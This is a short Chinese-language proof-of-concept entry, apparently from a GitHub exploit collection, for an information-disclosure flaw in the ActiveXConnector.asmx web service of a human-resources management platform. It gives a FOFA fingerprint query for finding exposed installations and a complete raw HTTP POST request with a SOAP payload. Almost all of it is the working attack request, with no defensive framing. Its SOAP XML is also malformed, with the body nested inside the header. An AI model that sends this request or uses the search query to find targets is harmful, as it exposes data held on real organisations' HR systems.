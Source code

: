 同享人力管理管理平台ActiveXConnector.asmx信息泄露

fofa

body="/Assistant/Default.aspx"

poc

POST /Service/ActiveXConnector.asmx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml;charset=UTF-8
Content-Length: 224

<soapenv:envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:header>
   <soapenv:body>
      <tem:getactivexconnector>
   </tem:getactivexconnector></soapenv:body>
</soapenv:header></soapenv:envelope>